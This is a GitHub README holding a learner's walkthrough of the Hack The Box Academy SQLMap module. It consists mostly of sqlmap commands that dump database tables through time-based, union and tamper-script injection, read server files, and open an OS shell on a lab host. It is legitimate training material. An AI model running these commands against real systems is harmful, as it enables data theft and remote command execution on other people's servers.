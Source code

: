 This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

## Module Exercises ##

## Case 1: Basic Dump ##
```bash 
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch
```
## Case 2: Simple Request ##
```bash
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```
## Case 3: Cookie-Based Injection ##
```bash 
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
## Case 4: Simple Dump ##

sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch

## Case 5: Time-Based Blind SQLi ##

sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries

## Case 6: Using Prefix Payload ##

sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'

## Case 7: Union-Based Injection ##

sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL

## Case 8: CSRF Token Handling ##

sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast

## Case 9: Randomized Parameter ##

sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid

## Case 10: Random Agent ##

sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast

## Case 11: Tamper Script ##

sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast

## File Reading & OS Shell ##

sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt

## OS Shell Access ##

sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null

## Skills Assessment: Minishop Web App ##

## Overview ##
### Application : Minishop
### Pages Analyzed: Blog, Contact Us, Catalog
### Findings
### Blog: Not vulnerable (form action is '#')
### Contact Us: Not vulnerable (form action is '#')
### Catalog (/shop): Vulnerable — uses JavaScript to post JSON to action.php

## Exploitation
### Intercepted request using Burp Suite
### Saved to shop.txt

## Exploited with SQLMap:

sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump

## Outcome

Successfully dumped final_flag table from the production database.

## Conclusion

**This module strengthened my understanding of:**

_SQL injection techniques (Boolean-based, Time-based, Union-based)
_
_Tamper scripts, CSRF tokens, and header injection_

_File read and OS shell interaction_

_Real-world application analysis and exploitation_

_I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics._

📁 Repository Structure

.
├── cases/
│   ├── Case1.txt
│   ├── Case2.txt
│   └── ...
├── shop.txt
├── read_file.txt
├── sqlmap_commands.md
└── README.md  <-- (this file)

Feel free to fork this repository and use it as a reference for your own HTB Academy progress!

## 📜 License

This project is licensed under the MIT License.

**MIT License**

Copyright (c) 2025 Manoj Ghimire

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

